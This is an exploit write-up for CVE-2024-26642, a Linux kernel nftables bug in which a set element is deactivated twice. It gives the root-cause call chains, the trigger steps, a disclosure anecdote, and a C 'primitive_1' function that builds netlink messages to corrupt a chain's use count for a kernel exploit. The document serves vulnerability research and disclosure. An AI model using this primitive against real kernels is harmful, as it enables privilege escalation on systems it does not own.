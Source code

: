 # Exploit detail about CVE-2024-26642
If you want to get some base information about CVE-2024-26642, please read [vulnerability.md](./vulnerability.md) first.

## Background
nftables is a netfilter project that aims to replace the existing {ip,ip6,arp,eb}tables framework, providing a new packet filtering framework for {ip,ip6}tables, a new userspace utility (nft) and A compatibility layer. It uses existing hooks, link tracking system, user space queuing component and netfilter logging subsystem.

It consists of three main components: kernel implementation, libnl netlink communication and nftables user space front-end. The kernel provides a netlink configuration interface and runtime rule set evaluation. libnl contains basic functions for communicating with the kernel. The nftables front end is for user interaction through nft.

nftables implements data packet filtering by using some components like `table`, `set`, `chain`, `rule`.

## Some additional stories
After reading `vulnerability.md` or `cause analysis`, you may wonder why the root cause and patch do not seem to match. I can only talk about the vulnerability reporting process for this question.
I sent a vulnerability report to security@kernel.org at 2024.2.29 13:33: 
``` 
Hi, I've found a new vulnerability in Linux netfilter/nftable subsystem. In the function nf_tables_deactivate_set, it does not set "set->dead = 1". This makes it possible to call nft_setelem_data_deactivate with a set element more than once by following this step: 
1. Create a pipapo set with flag NFT_SET_TIMEOUT and NFT_SET_ANONYMOUS. 
2. Create a set element of this pipapo set with flag NFTA_SET_ELEM_EXPIRATION. 
3. Create a chain. 
4. Create a rule with nft_lookup expr, which will bind the pipapo set we create in step 1. 
5. Delete the chain And finally nft_setelem_data_deactivate will be called for the same set element both in nft_map_deactivate and in function pipapo_gc.

Attachment is the poc I wrote for this vulnerability, which leaks some kernel pointers. I tested it on linux 6.1.78.

Thanks,
lonial con
```
The email also attached a poc I wrote based on the trigger idea (it can cause the latest kernel at that time to produce crahs). I did not receive any reply emails afterwards.
On 2024.3.5, I noticed that the maintainer of netfilter pushed a patch to netfilter (https://patchwork.ozlabs.org/project/netfilter-devel/patch/20240301022605.146412-1-pablo@netfilter.org/). He pushed the corresponding patch without asking for any opinion from me.

The patch did make my poc not work, but this patch did not fix the core of the problem `set->dead = 1`. Therefore, I added two patch commits to `vulnerability.md`.

## Cause anaylysis

In the function nf_tables_deactivate_set, it does not set "set->dead = 1". This makes it possible to call nft_setelem_data_deactivate with a set element more than once by following this step:

1. Create a pipapo set with flag NFT_SET_TIMEOUT and NFT_SET_ANONYMOUS.
2. Create a set element of this pipapo set with flag NFTA_SET_ELEM_EXPIRATION.
3. Create a chain.
4. Create a rule with nft_lookup expr, which will bind the pipapo set we create in step 1.
5. Delete the chain

After you send these commands in a message list, when you reach step 5 `delete the chain`, the following call chain will occur:
```
nf_tables_delchain -> nft_delrule -> nft_rule_expr_deactivate -> (expr->ops->deactivate) -> nft_lookup_deactivate -> nf_tables_deactivate_set -> case NFT_TRANS_PREPARE: nft_map_deactivate
```
`nft_map_deactivate` will eventually call `nft_setelem_data_deactivate` for all set elements in the set.

But at the same time, after all commands are executed, nftable will also call `nf_tables_commit`, which triggers another call chain:

```
nf_tables_commit -> (set->ops->commit) -> nft_pipapo_commit -> pipapo_gc -> nft_pipapo_gc_deactivate -> nft_setelem_data_deactivate
```

Finally, `nft_setelem_data_deactivate` will be called for elements which are timed out in the pipapo set, which may result in multiple calls to `nft_setelem_data_deactivate` for the same set element.

## Triggering the vulnerability

It's easy to trigger it by following this steps:

- Create a pipapo set with flag NFT_SET_TIMEOUT and NFT_SET_ANONYMOUS.
- Create a set element of this pipapo set with flag NFTA_SET_ELEM_EXPIRATION.
- Create a chain.
- Create a rule with nft_lookup expr, which will bind the pipapo set we create in step 1.
- Delete the chain 


## Exploit it

Using CVE-2024-26642 to exploit a mitigation instance is completely different from exploiting a LTS or COS instance. But it can use the same idea as [this article](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-6817_mitigation/docs/exploit.md). My exploit is implemented by simply modifying the exploit code [here](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-6817_mitigation/exploit/mitigation-v3-6.1.55/exploit.c). This article only details the modified part of the original exploit(How to trigger the vulnerability so that chain B use count being decremented an additional time). For the content of the original exploit, please read [this article](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-6817_mitigation/docs/exploit.md).

## Primitive

### Primitive_1
I build a function named as `primitive_1` to change the nft_chain->use by triggering the vulnerabiltiy:

```c
//make target_chain->use = target_chain->use - 1
void primitive_1(struct nl_sock *socket, char *table, char *target_chain){
    char *pad = malloc(0x100);
    memset(pad,0x41,0x100);
    int i;
    struct nlmsghdr **msg_list = malloc(sizeof(struct nlmsghdr *)*0x200);
    char *set_name = "set for primitive1";
    char *chain_name = "chain for primitive1";
    char *key = malloc(0x40);
    msg_list[0] = new_set_pipapo_for_timeout_and_chain_with_anonymous_msg(table, set_name, 0x40);
    msg_list[1] = new_chain_msg(table, chain_name, 0);
    msg_list[2] = new_setelem_with_chain_and_expiration_msg(table, set_name, pad, 0xc0, target_chain, NULL, 0, NULL, 0, 1,0x0100000000000000);
    msg_list[3] = new_rule_lookup_for_chain_msg(table, chain_name, set_name, 1);
    msg_list[4] = del_chain_msg(table, chain_name);
    char *tmp = malloc(0x40);
    for(i=0;i<0x100;i++){
        snprintf(tmp, 0x40, "table for primitive %d", i);
        msg_list[5+i] = new_table_with_udata_msg(tmp, key, 0x40);
    }
    send_msg_list(socket, msg_list, 0x105);

    free(msg_list);
    free(pad);
}
```

How it works:
1. message 0: Create a pipapo set with flags `NFT_SET_TIMEOUT` and `NFT_SET_ANONYMOUS`
2. message 1: Create a chain
3. message 2: Create a set elements, all of which contain `NFTA_SET_ELEM_EXPIRATION` and `NFTA_SET_ELEM_TIMEOUT`.
4. message 3: Create a rule on the chain, which contains an expr of type `lookup`. `lookup` expr can be bound to an `nft_set` when initialized, and we let it bind the pipapo set created by message[0].
5. message 4: Delete the chain created by message 2
6. mseesage 5 - 0x104: Create 0x100 table with `udata`. This is just to increase the number of messages to ensure that the set element created by message 2 will time out when the vulnerability is triggered.

When the above message is sent, two rounds of calls to `nft_setelem_data_deactivate` for the same set element will be triggered:
    
The first round is when executing message 4, and the following call path will be generated in the end:

```c
nf_tables_delchain -> nft_delrule -> nft_rule_expr_deactivate -> (expr->ops->deactivate) -> nft_lookup_deactivate -> nf_tables_deactivate_set -> nft_map_deactivate
```

The `nft_map_deactivate` function will call `nft_mapelem_deactivate` -> `nft_setelem_data_deactivate` for all elements in the pipapo set created by message 0.

The second round is after all messages are executed, `netfilter` will call the `nf_tables_commit` function, and finally generate the calling path:
```c
nft_set_commit_update -> (set->ops->commit) -> nft_pipapo_commit -> pipapo_gc -> nft_pipapo_gc_deactivate -> nft_setelem_data_deactivate
```
The function `pipapo_gc` will also call `nft_setelem_data_deactivate` for all timeout elements in pipapo set.
(This is why it is necessary to add `set->dead = 1` in nf_tables_deactivate_set to fix the vulnerability, because after adding this line of code, the subsequent operations will not be executed in the function nft_set_commit_update.)
